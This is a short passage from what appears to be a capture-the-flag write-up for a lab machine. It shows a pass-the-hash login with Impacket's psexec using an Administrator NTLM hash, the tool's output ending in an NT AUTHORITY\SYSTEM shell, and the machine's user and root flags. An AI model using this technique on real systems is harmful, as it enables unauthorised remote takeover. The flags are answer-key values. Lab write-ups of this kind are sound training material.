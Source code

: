 - We use psexec to connect to the machine using the Administrator account
    
    ```bash
    ➜  examples python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file IyDArZJa.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service gqIn on 10.10.10.161.....
    [*] Starting service gqIn.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> whoami
    nt authority\system
    
    C:\Windows\system32> 
    
    ```
    
- Flags:
    - User:
    
    ```c
    70dd19fb034a1173f2aacf11983ed9ba
    ```
    
    - Administrator/root:
    
    ```c
    d301343242dc120827abc722dc0630f3
    ```